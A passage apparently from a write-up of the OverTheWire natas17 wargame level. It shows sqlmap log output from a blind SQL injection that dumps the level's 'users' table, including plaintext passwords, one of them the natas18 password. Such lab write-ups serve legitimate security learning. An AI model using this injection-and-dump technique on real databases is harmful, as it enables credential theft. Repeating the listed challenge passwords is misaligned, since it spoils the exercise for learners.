wgC6PrAyLNT0pYCqHd
[19:58:02] [INFO] retrieved: user1
[19:59:12] [INFO] retrieved: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
[20:10:11] [INFO] retrieved: natas18
[20:11:51] [INFO] retrieved: MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2
[20:22:42] [INFO] retrieved: user2
[20:23:57] [INFO] retrieved: VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD
[20:35:24] [INFO] retrieved: user3
Database: natas17
Table: users
[4 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd | user1    |
| 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ | natas18  |
| MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 | user2    |
| VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD | user3    |
+----------------------------------+----------+

[20:36:44] [INFO] table 'natas17.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas17.natas.labs.overthewire.org/dump/natas17/users.csv'                                                                                        
[20:36:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas17.natas.labs.overthewire.org'                                                                                                                
[20:36:44] [WARNING] your sqlmap version is outdated

[*] ending @ 20:36:44 /2025-05-21/
```


